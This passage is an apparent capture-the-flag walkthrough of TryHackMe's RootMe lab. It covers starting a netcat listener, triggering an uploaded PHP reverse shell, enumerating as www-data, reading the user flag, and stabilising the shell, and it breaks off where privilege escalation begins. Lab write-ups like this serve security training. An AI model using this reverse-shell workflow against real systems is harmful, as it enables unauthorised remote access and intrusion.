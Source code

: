 If we take a look at the /uploads directory we found earlier, we can see our uploaded reverse shell :  
![](https://i.imgur.com/8GL26Ka.png)  

We just need to start a listener on our machine :  
```
┌──(attacker@AttackBox)-[~]
└─$ nc -lnvp 4242
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
```

And then navigate to our reverse shell, in my case it is `http://10.10.237.46/uploads/php-reverse-shell.phtml`. And if we take a look at our listener, we have a shell :  
```
Ncat: Connection from 10.10.237.46.
Ncat: Connection from 10.10.237.46:36942.
Linux rootme 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 10:39:14 up 21 min,  0 users,  load average: 0.00, 0.01, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

Let's do some simple enumeration.
```
$ whoami
www-data
$ ls /home
rootme
test
```

We are www-data and there is 2 user directories in /home. The user flag is located in /var/www :  
```
$ cd /var/www
$ ls  
html
user.txt
$ cat user.txt
THM{**************}
$
```

**Question : Find a form to upload and get a reverse shell, and find the flag.**  
**Answer : THM{*HIDDEN*}**

## Privilege escalation

Before looking for a way to escalate our privileges, let's stabilise our shell. First, let's use `python3 -c 'import pty; pty.spawn("/bin/bash")'` to get 
a more interactive shell. Then we can use `export TERM=xterm` to be able to use `clear`. And to fully stabilise our shell, we can use CTRL+Z to background our shell.
Then we use `stty -echo raw;fg`, and we have a fully stabilised shell !
